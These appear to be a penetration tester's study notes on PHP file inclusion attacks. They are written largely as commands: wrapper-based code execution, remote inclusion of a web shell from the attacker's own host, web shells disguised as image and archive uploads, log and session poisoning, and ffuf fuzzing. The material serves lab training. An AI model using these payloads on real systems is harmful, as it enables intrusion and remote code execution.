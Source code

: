 # Local file inclusion
## PHP filter

The interesting part, is to find first the php files with ffuf

    ffuf -w /opt/useful/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u http://<SERVER_IP>:<PORT>/FUZZ.php

after that we can try to retrieve the code using the filters.

    php://filter/read=convert.base64-encode/resource=config


## PHP wrappers
### DATA

the data wrapper is what allows to include external data, including php code, and it can allow us to have an RCE.

first we check the php configurations:

Nginx `/etc/php/X.Y/fpm/php.ini`

Apache `/etc/php/X.Y/apache2/php.ini`

and we check for the parameter `allow_url_include` it has to be on in order to include php code as follows:

    echo '<?php system($_GET["cmd"]); ?>' | base64

    http://<SERVER_IP>:<PORT>/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id

### input

Similar to data, the only difference that the server needs to accept POST requests.

    curl -s -X POST --data '<?php system($_GET["cmd"]); ?>' "http://<SERVER_IP>:<PORT>/index.php?language=php://input&cmd=id" | grep uid
           
### Expect

Finally we have the expect, which allows us to run commands directly as follows but before we have to check the configurations and grep expect:

    curl -s "http://<SERVER_IP>:<PORT>/index.php?language=expect://id"


## RFI

to locate the RFI, the url needs to be allowed, and to confim that we do the same thing we did before to check the `allow_url_include = On` and try this payload:

    http://<SERVER_IP>:<PORT>/index.php?language=http://127.0.0.1:80/index.php

and to exploit it, we start by writing the web shell

    echo '<?php system($_GET["cmd"]); ?>' > shell.php

we start an http listener with python and launch the payload.

    http://<SERVER_IP>:<PORT>/index.php?language=http://<OUR_IP>:<LISTENING_PORT>/shell.php&cmd=id

it can also be done with ftp, smb, https (maybe not tested)

### File inclusion upload

We can try LFI to upload payloads depending on the situation, example of a set of payloads.

    echo 'GIF8<?php system($_GET["cmd"]); ?>' > shell.gif

and example of calling it as follow: 

    http://<SERVER_IP>:<PORT>/index.php?language=./profile_images/shell.gif&cmd=id

We can also try a zip upload:

    echo '<?php system($_GET["cmd"]); ?>' > shell.php && zip shell.jpg shell.php

    http://<SERVER_IP>:<PORT>/index.php?language=./profile_images/shell.gif&cmd=id

and we can use the zip wrapper in order to call the payload (warning the wrapper has to be enabled and it doesn't always work)

    http://<SERVER_IP>:<PORT>/index.php?language=zip://./profile_images/shell.jpg%23shell.php&cmd=id

### Phar 

Finally, we can use the phar:// wrapper to achieve a similar result. To do so, we will first write the following PHP script into a shell.php file:

```php
<?php
$phar = new Phar('shell.phar');
$phar->startBuffering();
$phar->addFromString('shell.txt', '<?php system($_GET["cmd"]); ?>');
$phar->setStub('<?php __HALT_COMPILER(); ?>');
$phar->stopBuffering();
```
This script can be compiled into a phar file that when called would write a web shell to a shell.txt sub-file, which we can interact with. We can compile it into a phar file and rename it to shell.jpg as follows:

```sh
php --define phar.readonly=0 shell.php && mv shell.phar shell.jpg
```

and we can call the payload as follow

    http://<SERVER_IP>:<PORT>/index.php?language=phar://./profile_images/shell.jpg%2Fshell.txt&cmd=id

## LOG poisoning my favourite <3
### Sessions

If the app uses sessions, than probably it stores the sessions in `/var/lib/php/sessions/ on Linux and in C:\Windows\Temp\ on Windows. `
if the PHPSESSID cookie is set to el4ukv0kqbvoirg7nkp4dncpk3, then its location on disk would be `/var/lib/php/sessions/sess_el4ukv0kqbvoirg7nkp4dncpk3.`

and now try the LFI using the sessions:

    http://<SERVER_IP>:<PORT>/index.php?language=/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd

it does exist, and now we have to load the payload

    http://<SERVER_IP>:<PORT>/index.php?language=%3C%3Fphp%20system%28%24_GET%5B%22cmd%22%5D%29%3B%3F%3E

final step is to execute the shell

    http://<SERVER_IP>:<PORT>/index.php?language=/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd&cmd=id

## Server Log Poisoning

Both Apache and Nginx maintain various log files, such as access.log and error.log. The access.log file contains various information about all requests made to the server, including each request's User-Agent header. As we can control the User-Agent header in our requests, we can use it to poison the server logs as we did above. (src : htb academy)

So, let's try including the Apache access log from /var/log/apache2/access.log, and see what we get the etc/password

in burp suite or curl, we change the user agent to the payload and execute another request.

    curl -s "http://<SERVER_IP>:<PORT>/index.php" -A "<?php system($_GET['cmd']); ?>"

and next, we should execute normal curl with the fli to `/var/log/apache2/access.log` and add the `&cmd=id`

of i can directlyy write the bash command without the cmd : example

     curl -s http://94.237.59.180:46754/index.php -A "<?php system('id'); ?>"

and then just access the log page

Finally, there are other similar log poisoning techniques that we may utilize on various system logs, depending on which logs we have read access over. The following are some of the service logs we may be able to read:

    /var/log/sshd.log
    /var/log/mail
    /var/log/vsftpd.log

## FUZZING 
parameters : 

    ffuf -w /opt/useful/seclists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?FUZZ=value' -fs 2287

lfi wordlist!

    ffuf -w /opt/useful/seclists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=FUZZ' -fs 2287
or just use `LFI-Jhaddix.txt`

Server files 

    ffuf -w /opt/useful/seclists/Discovery/Web-Content/default-web-root-directory-linux.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ/index.php' -fs 2287

Server logs and configurations

    ffuf -w ./LFI-WordList-Linux:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ' -fs 2287
